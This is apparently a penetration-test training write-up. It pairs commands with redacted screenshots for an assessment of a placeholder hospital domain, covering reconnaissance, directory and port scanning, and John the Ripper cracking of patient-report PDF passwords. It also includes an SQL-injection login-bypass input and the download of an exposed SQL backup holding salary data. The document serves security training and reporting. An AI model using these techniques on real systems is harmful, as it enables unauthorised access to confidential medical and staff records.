









# Command Reference and Screenshot Evidence

This reference pairs command syntax with original screenshot evidence. Target addresses in templates use the reserved `mediroza.example` domain. `WORDLIST.txt` and `PDF_PASSWORD` are placeholders. The screenshots are explicitly redacted derivatives of the original VM captures; no command was re-run against the example domain.

## 1. Domain Registration — WHOIS

```bash
whois mediroza.example
```

Purpose: inspect domain registration and authoritative name-server information.



## 2. Web Fingerprinting — WhatWeb

```bash
whatweb mediroza.example
```

Purpose: inspect identified web technologies, status codes and redirects. A fingerprint is an observation, not proof of a vulnerability.



## 3. Domain Resolution — nslookup

```bash
nslookup mediroza.example
```

Purpose: resolve the domain. The target name and resolved IP are masked in the screenshot.



## 4. DNS Enumeration — DNSRecon

```bash
dnsrecon -d mediroza.example
```

Purpose: examine DNS records. The public image retains the launch and initial status lines; the full original record output remains in the confidential report.



## 5. Path Enumeration — Gobuster

```bash
gobuster dir -u https://mediroza.example/ -w ./enumeration.txt
```

`dir` selects directory enumeration; `-u` selects the authorized URL; `-w` supplies candidate paths. A directory returning 403 does not establish protection of every file inside it.



## 6. Service Identification — Nmap

```bash
nmap -sV mediroza.example
```

`-sV` probes open ports for service information. The trainee supplied textual scan output, but no original Nmap screenshot was available. An open port is not a vulnerability by itself.

## 7. PDF Verification Data Extraction

```bash
pdf2john patient_report_1.pdf patient_report_2.pdf patient_report_3.pdf > pdfs_hash.hash
```

This extracts the verification data needed to test candidate passwords. It does not decrypt a PDF by itself.



## 8. Offline Password Recovery — John the Ripper

```bash
john --format=PDF --wordlist=WORDLIST.txt --pot=results.pot pdfs_hash.hash
john --show --format=PDF --pot=results.pot pdfs_hash.hash
```

`--format` selects the PDF format; `--wordlist` selects password candidates; `--pot` stores recovered results; `--show` displays stored results. Password values are masked in both screenshot result lists.



## 9. Original PDF Metadata — ExifTool

```bash
exiftool -password 'PDF_PASSWORD' patient_report_3.pdf
```

Use the original document and its recovered password. A re-exported reading copy may lose operational metadata. No original ExifTool screenshot was supplied; the metadata output was preserved as text.

## 10. Portal Input and Report Access

Confirmed Username input:

```text
admin' -- -
```

This is an input value, not a shell command. The input screenshot alone does not prove the successful HTTP response; the separate report-page screenshot supports the trainee's account. Complete original request parameters are unavailable.





## 11. Preserve a Backup Response — curl

```bash
curl -q -sS --max-time 30 \
  -D backup_headers.txt \
  -o backup.sql \
  -w 'HTTP status: %{http_code}\n' \
  'https://mediroza.example/legacy/backup.sql'

file backup.sql
head -n 20 backup.sql
sha256sum backup.sql
```

`-q` disables personal curl configuration; `-D` preserves response headers; `-o` saves the response body; `-w` displays the status. Check the body: HTTP 200 alone does not prove that the response is a SQL export. The original headers and verification file were supplied, but no original curl screenshot was available.

## 12. Read the SQL Tables

```sql
SELECT full_name, job_title, department, monthly_salary_zar
FROM staff ORDER BY id;

SELECT shareholder_name, share_percent, shares_held, share_class
FROM shareholders ORDER BY id;

SELECT COUNT(*) AS employee_count, SUM(monthly_salary_zar) AS monthly_total_zar
FROM staff;
```

`CREATE TABLE` describes the schema; `INSERT INTO` specifies row values; `SELECT` chooses columns; `COUNT` counts records; `SUM` adds values. These examples run against a local database, not the hospital server.

## 13. Run the Repository Demonstration

```bash
python3 scripts/analyze_demo.py --source data/demo.sql --output outputs
python3 -m unittest discover -s tests -v
```

These commands run with the bundled synthetic dataset. The output contains 30 fictional employee records and 10 fictional shareholder records, with amounts different from the confidential assessment data.

Individual command files are available in [evidence/commands](evidence/commands). Editing notes and screenshot hashes are recorded in [evidence/manifest.json](evidence/manifest.json).
